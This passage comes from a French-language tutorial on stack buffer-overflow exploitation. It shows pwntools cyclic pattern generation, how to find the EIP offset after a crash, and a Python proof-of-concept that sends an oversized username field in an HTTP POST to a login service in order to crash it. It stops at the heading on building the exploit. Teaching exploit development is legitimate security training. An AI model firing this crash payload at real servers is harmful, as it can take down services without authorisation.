 
```python
from pwn import * pattern = cyclic(300) print(pattern)
```


### 🔹 Trouver l’offset

Après un crash, récupérer le contenu de EIP :

```python
cyclic_find(0x6161616c) 
```


---

## 💻 Exemple de PoC initial – provoquer un crash

```python
#!/usr/bin/python
import socket, sys

try:
    server = sys.argv[1]
    port = 80
    size = 800  # taille initiale

    payload = b"A" * size
    content = b"username=" + payload + b"&password=A"

    request = b"POST /login HTTP/1.1\r\n"
    request += b"Host: " + server.encode() + b"\r\n"
    request += b"Content-Type: application/x-www-form-urlencoded\r\n"
    request += b"Content-Length: " + str(len(content)).encode() + b"\r\n\r\n"
    request += content

    print("[+] Envoi du buffer malicieux...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(request)
    s.close()
    print("[+] Terminé.")
except:
    print("[-] Erreur de connexion.")

```


---

## 🧬 Structuration de l’exploit

Une fois l'offset identifié :
